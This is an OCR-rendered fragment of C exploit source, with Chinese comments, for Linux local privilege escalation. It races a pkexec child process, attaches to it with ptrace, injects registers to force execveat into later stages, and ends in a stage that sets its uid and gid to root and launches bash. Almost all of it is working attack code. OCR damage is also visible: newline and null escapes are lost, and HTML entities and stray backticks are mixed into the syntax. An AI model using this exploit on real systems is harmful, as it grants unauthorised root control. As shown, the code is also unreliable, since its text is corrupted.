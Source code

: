 ```
      ptrace(PTRACE_POKETEXT, pid, scratch_area + i * sizeof(long),  (void*)pdata);  
    `}`                                                                     
    /* execveat(exec_fd, path, argv, envv, flags) */                      
    regs.orig_rax = __NR_execveat;                                        
    regs.rdi = exec_fd;                                                   
    regs.rsi = scratch_area + offsetof(struct injected_page, path);       
    regs.rdx = scratch_area + offsetof(struct injected_page, argv);       
    regs.r10 = scratch_area + offsetof(struct injected_page, envv);       
    regs.r8 = AT_EMPTY_PATH;                                              
    ptrace(PTRACE_SETREGSET, pid, NT_PRSTATUS, &amp;iov);
    ptrace(PTRACE_DETACH, pid, 0, NULL);
    waitpid(pid, &amp;dummy_status, 0);

`}`
static int middle_stage2(void)`{`
    fprintf(stderr,"06 middle stage2n");
    pid_t child =  waitpid(-1,&amp;dummy_status,0);
    force_exec_and_wait(child, 42, "stage3");
    return 0;
`}`
static int spawn_shell(void)`{`
    fprintf(stderr,"07 trigger shelln");
    setresgid(0, 0, 0);
    setresuid(0, 0, 0);
    execlp("bash", "bash", NULL);      
    return 0;
`}`
int main(int argc,char **argv)`{`
    if(strcmp(argv[0],"stage2")==0)`{`
        return middle_stage2();
    `}`
    if(strcmp(argv[0],"stage3")==0)`{`
        return spawn_shell();
    `}`


    // 下一次 调用 write(block_pipe[1] 会  block 住
    pipe2(block_pipe,O_CLOEXEC|O_DIRECT);
    fcntl(block_pipe[0],F_SETPIPE_SZ,0x1000);
    char dummy=0;
    write(block_pipe[1], &amp;dummy, 1);

    static char middle_stack[1024*1024];


    fprintf(stderr,"00 task A fork task B n" );
    pid_t midpid =  clone(middle_main,middle_stack+sizeof(middle_stack),
            CLONE_VM|CLONE_VFORK|SIGCHLD,NULL);

    while(1)`{`
        //  等待 直到 task B 运行 pkexec 的时候
        int fd = open(tprintf("/proc/%d/comm", midpid), O_RDONLY);   
        char buf[16];                                                
        int buflen = read(fd, buf, sizeof(buf)-1);             
        buf[buflen] = '';                                          
        *strchrnul(buf, 'n') = '';                                
        if (strncmp(buf, basename(helper_path), 15) == 0)            
             break;                                                     
        usleep(100000);                                              
    `}`
    fprintf(stderr,"05 task A attack task Bn");
    ptrace(PTRACE_ATTACH,midpid,0,NULL);
    waitpid(midpid,&amp;dummy_status,0);
```